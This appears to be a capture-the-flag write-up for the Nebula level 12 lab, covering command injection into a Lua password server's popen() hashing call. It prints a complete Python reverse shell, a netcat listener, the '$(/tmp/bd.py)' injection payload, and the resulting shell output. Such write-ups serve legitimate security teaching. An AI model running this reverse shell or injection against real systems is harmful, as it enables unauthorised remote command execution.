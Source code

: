 			if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
				client:send("Better luck next time\n");
			else
				client:send("Congrats, your token is 413**CARRIER LOST**\n")
			end

		end

		client:close()
	end

In opens a server on localhost:50001 and asks for a password. The password then is hashed with some bash utilites
in a `popen()` call and compared with the sha1 sum `4754a4f4bd5787accd33de887b9250a0691dd198`. But of course
we don't need to find the password that is hashed to the target hash. We can just inject a command and then 
launch a backdor.

To exploit it, I created a simple connect back backdoor (reverse backdoor) script in Python
(inspred by <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>):

	:::python
	#!/usr/bin/python
	import socket,subprocess,os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("127.0.0.1",8888))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])

Then I saved it to `/tmp/bd.py` and launched the attack:

	:::bash
	# first start listening for incoming backdoor connections
	nc -l localhost 8888
	# then attack in a different shell terminal
	cd /home/flag12
	echo -e '$(/tmp/bd.py)\n' | nc localhost 50001

The overall payload that is executed on the Lua script becomes `echo $(/tmp/bd.py) | sha1sum`
which will substitute and execute the string between `$(..)` and thus execute the backdoor:

	:::bash
	level12@nebula:~$ netcat -l localhost 8888
	sh: no job control in this shell
	sh-4.2$ getflag
	getflag
	You have successfully executed getflag on a target account
	sh-4.2$
